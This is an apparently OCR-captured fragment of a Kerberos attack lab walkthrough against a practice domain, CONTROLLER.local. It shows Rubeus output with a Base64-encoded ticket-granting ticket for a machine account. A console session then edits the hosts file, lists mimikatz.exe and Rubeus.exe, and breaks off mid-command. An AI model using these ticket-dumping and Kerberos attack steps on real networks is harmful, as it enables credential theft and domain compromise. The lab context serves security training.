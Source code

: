 ```
Z5i/186Sdbll3p6GephB3
    YgJLMMvE0VKfMr/X6iD7RciV330ax/2SX1TImIKdfLrueYmfwcMZiwYU6pa8SeoMa1ijzjLWqeg2sqH
r8xdN83TrvXJdRjVYLgVj
    DNspMCEPaGg7Wn51+8Bg0kUUNuGoxDyDzIFcHllUVOmN8bpnHAtpluZxJumgHZKzNz/IqS3PgQzZeRH
1z1KA0Rnub/iu52nfJiqj
    bptnmP5ueWswjuoDdedeLoD2RvAPfA1chAyyi8dHcfllCPrILgKHmgDjZEIB6DBaY6AXSFIb/KttSmV
hkUA4JsfH7TxFJICbWE4/
    hfRE9cxQD7x3ME404mZ4XVvXeTU1xdz6OShOBWLvHbjQr0FcCu1uXfnT7IZkOuHCrocWpaNAwPZJySF
OGPTDdMB+FuJCPYYM5/cz
    CFMCMzYJ4Gy4/XjicuwyU9aNBBixsGhtDEaSCewdqBSyZTm3MHLoQcfBhD9uWahD4zH9DAW8YhzbkKA
v+bWI9R9PrliOzY7ELu06
    xmMKI9Z3YxBdZ9r6/IzlthuOb14iq9zWsGjMlZZ4eSFjEev6anWXX2f11G1OevwMvmVnAMzjlp3FWbW
DMnpvhsiAZT98OTtgk9Hh
    LbN3a2Vw+TW/pRDu/CHWC7mtqrH5gBw4UUpQRSedx+cIJsVLHNRNiAmYRhyxJHEw/pjCftsZ5V/hygY
u+LHH9kFxaJGtxwMkRYYY
    TPf1Gxgoo5lKvyi5WihAZmYgQ/I/bzJDv2L4na4eGWF4HeHe3i2eTAf++VzGPdf3WUoAbypKJDM6+aT
JjKW6XOzA2UF3aeid33Fs
    5A+NfWUrtOjWzo8XQ6k5Kr12KGUknTjq0RDGLZV2oTJ5QRzTvTI3RGFzqcyvcrzRh3Mt+GWUhb1+VDu
w70wlNaxB0dnziTHwo0BI
    dCJD145TeGcKt4irYVr/rk42cw0DHUoIZBKboQK+zcK60aYkAOid4NzYLvGcS7cjV1TuXVPOLEi+7SB
OPpGgzjAi1AWbOJ4tqJB1
    DdLlTdXXfj0xgLPIKOZnf7rZzJ/aqxKwT5sH+spCmEQCgUk7tB3gMDdgyy3EPVybxjLDbY6xB5/xzBA
w5nAQWXSGZk8nrKNuzQ20
    Me3UiDWkkxBIVLGwQX5bK6tlK0Ara5dJE90xM9fpMrU9PZ2+wJ6tqxJbaMoJypIFhyuO4GLV4+yh8SE
XYj6/BTrwZic1YHtpSn6+
    QvH2Zs30+dPkhJMTojN3gyWtQzu27wqzRfYVdjbuTVYpd/qnp+r/LSVg4FR073zRZzGN6MOhTZK7Ojb
ipURGKSMdK0GTAs39iszh
    OZWW0EcMmhg+oOOgjiqA3hg7+2nhIFjf6GGn1upvyfpkWowaKCGHjb6jgfcwgfSgAwIBAKKB7ASB6X2
B5jCB46CB4DCB3TCB2qAr
    MCmgAwIBEqEiBCBmQINdQ2QQ7GhFj8Y+IdfeyhVFaYhkCYkbGvhkpl/CoKESGxBDT05UUk9MTEVSLkx
PQ0FMohowGKADAgEBoREw
    DxsNQ09OVFJPTExFUi0xJKMHAwUAQOEAAKURGA8yMDIyMDgyMDE3MDUzM1qmERgPMjAyMjA4MjEwMzA
1MzNapxEYDzIwMjIwODI3
    MTcwNTMzWqgSGxBDT05UUk9MTEVSLkxPQ0FMqSUwI6ADAgECoRwwGhsGa3JidGd0GxBDT05UUk9MTEV
SLkxPQ0FM

  User                  :  CONTROLLER-1$@CONTROLLER.LOCAL
  StartTime             :  8/20/2022 10:05:33 AM
  EndTime               :  8/20/2022 8:05:33 PM
  RenewTill             :  8/27/2022 10:05:33 AM
  Flags                 :  name_canonicalize, pre_authent, renewable, forwarded, fo
rwardable
  Base64EncodedTicket   :

```

```
controller\administrator@CONTROLLER-1 C:\Users\Administrator\Downloads>echo 10.10.5
9.104 CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts

controller\administrator@CONTROLLER-1 C:\Users\Administrator\Downloads>dir
 Volume in drive C has no label.
 Volume Serial Number is E203-08FF

 Directory of C:\Users\Administrator\Downloads

05/25/2020  03:45 PM    <DIR>          .
05/25/2020  03:45 PM    <DIR>          ..
05/25/2020  03:45 PM         1,263,880 mimikatz.exe
05/25/2020  03:14 PM           212,480 Rubeus.exe
               2 File(s)      1,476,360 bytes
               2 Dir(s)  50,903,588,864 bytes free

controller\administrator@CONTROLLER-1 C:\Users\Administrator\Downloads>Rubeus.exe b
```